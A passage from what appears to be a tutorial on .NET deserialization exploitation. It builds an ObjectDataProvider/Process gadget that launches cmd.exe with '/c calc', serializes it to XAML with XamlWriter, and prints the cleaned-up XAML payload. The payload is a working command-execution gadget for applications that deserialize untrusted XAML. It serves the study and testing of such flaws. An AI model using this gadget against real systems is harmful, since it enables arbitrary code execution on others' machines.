We are not able to serialize `MethodParameters`, so we need to find another way to pass the parameters to `Process.Start`. Luckily for us, `ObjectDataProvider` has another field called `ObjectInstance` which we can set to an existing `Process` object. `Process` objects have a field called `StartInfo`, which is of type `ProcessStartInfo`. This allows us to specify the `FileName` and `Arguments` in a manner that can be serialized. So let's rewrite the code like this:

```csharp
using System;
using System.Diagnostics;
using System.Windows.Data;
using System.Windows.Markup;

namespace TeeImportExploit
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "C:\\Windows\\System32\\cmd.exe";
            psi.Arguments = "/c calc";

            Process p = new Process();
            p.StartInfo = psi;

            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectInstance = p;
            odp.MethodName = "Start";

            string xaml = XamlWriter.Save(odp);
            Console.WriteLine(xaml);
        }
    }
}

```

This time, when we run the program the calculator will spawn again and the output will be much longer. Most importantly, the file name and arguments are included in the serialized output.

![image](3IyA9olVjwld.png)

Let's take a closer look at the `XAML` output and clean up any unnecessary information.

```xml
<ObjectDataProvider MethodName="Start" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:sc="clr-namespace:System.Collections;assembly=mscorlib" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
    <ObjectDataProvider.ObjectInstance>
        <sd:Process>
            <sd:Process.StartInfo>
                <sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="C:\Windows\System32\cmd.exe">
                    <sd:ProcessStartInfo.EnvironmentVariables>
                        <SNIP>
                    </sd:ProcessStartInfo.EnvironmentVariables>
                </sd:ProcessStartInfo>
            </sd:Process.StartInfo>
        </sd:Process>
    </ObjectDataProvider.ObjectInstance>
</ObjectDataProvider>

```
